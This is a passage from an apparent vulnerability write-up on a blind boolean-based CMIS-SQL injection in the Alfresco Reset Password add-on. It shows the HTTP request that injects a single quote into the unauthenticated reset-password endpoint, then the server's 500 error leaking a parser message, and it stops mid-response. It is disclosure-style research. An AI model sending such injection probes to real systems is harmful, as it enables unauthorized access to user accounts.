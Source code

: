 With a quick google search i figure out that the `Forget Password?` button is being handled by a plugin called [Alfresco Reset Password add-on](https://github.com/FlexSolution/AlfrescoResetPassword)

# Vulnerabilities discovery
## Blind-boolean-based CMIS-SQL Injection 

`Alfresco Reset Password add-on` is using [CMIS-SQL](https://hub.alfresco.com/t5/alfresco-content-services-hub/cmis-query-language/ba-p/289736) to query data from Alfresco, which is `a read-ony` query language for SELECT statement and with limited functions (like, UPPER, LOWER, etc...). 

Moving forward, I discover that the Reset Password is suffering from possible **CMIS-SQL Injection** when adding a single quote `(')` in the `e-mail` address input!

### Request to the Target Server:

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com'"
}
```
### Response from the Target Server:

```http
HTTP/1.1 500 Internal Server Error
Date: Thu, 03 Sep 2020 22:19:05 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_auth_kerb/5.4
Strict-Transport-Security: max-age=315536000; includeSubDomains
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: application/json;charset=UTF-8
Content-Length: 467
matched: externe-No-cockie-CAS
Connection: close

{
   "status":{
      "code":500,
      "name":"Internal Error",
      "description":"An error inside the HTTP server which prevented it from fulfilling the request."
   },
   "message":"08040025 Wrapped Exception (with status template): line 1:59 mismatched character '<EOF>' expecting '''",
```